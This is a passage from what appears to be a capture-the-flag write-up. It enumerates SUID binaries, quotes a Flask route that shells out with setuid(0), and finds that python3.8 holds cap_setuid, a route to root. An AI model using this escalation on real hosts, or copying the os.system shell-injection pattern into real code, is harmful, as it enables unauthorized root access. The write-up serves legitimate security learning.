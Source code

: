 ```bash
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
...
```

I went back to the application code I had downloaded. The code that took the network capture was interesting.

```python
@app.route("/capture")
@limiter.limit("10 per minute")
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))
```

The code was running `setuid(0)`. It was changing to root so it could capture the network traffic. It should not have been allowed to do this. Unless it had some special [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html).

```bash
nathan@cap:~$ which python3
/usr/bin/python3

nathan@cap:~$ ls -l /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8

nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Python had the permission to change the user id of its process. That meant I could use Python to run anything I wanted as root.
